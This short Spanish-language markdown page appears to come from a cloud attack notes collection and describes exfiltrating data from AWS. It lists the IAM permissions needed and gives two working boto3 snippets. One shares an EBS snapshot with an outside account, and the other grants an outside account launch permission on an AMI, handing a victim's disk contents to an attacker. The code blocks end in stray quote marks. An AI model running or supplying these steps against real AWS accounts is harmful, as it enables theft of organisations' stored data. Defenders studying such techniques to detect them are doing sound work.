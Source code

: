 # Exfiltracion de datos utilizando un Snapshots de EBS
## Permisos Requeridos: 
ec2:ModifySnapshotAttribute
ec2:DescribeSnapshots

```python
import boto3

# Crear un cliente de EC2
ec2_client = boto3.client('ec2')

# Definir el ID del snapshot
snapshot_id = 'snap-01234567890abcdef'

# Definir el ID de la cuenta AWS con la que compartir el snapshot
account_id = '012345678901'

# Compartir el snapshot con la cuenta AWS externa
ec2_client.modify_snapshot_attribute(
    SnapshotId=snapshot_id,
    Attribute='createVolumePermission',
    CreateVolumePermission={
        'Add': [{'UserId': account_id}]
    }
)"

		
# Exfiltracion de datos utilizando un Snapshots de una AMI
## Permisos Requeridos: 
ec2:ModifyImageAttribute
ec2:DescribeImages

```python
import boto3

# Crear un cliente de EC2
ec2_client = boto3.client('ec2')

# Definir el ID de la AMI
ami_id = 'ami-01234567890abcdef'

# Definir el ID de la cuenta AWS con la que compartir la AMI
account_id = '123456789012'

# Modificar los permisos de lanzamiento para compartir la AMI
ec2_client.modify_image_attribute(
    ImageId=ami_id,
    LaunchPermission={
        'Add': [{'UserId': account_id}]
    }
)"


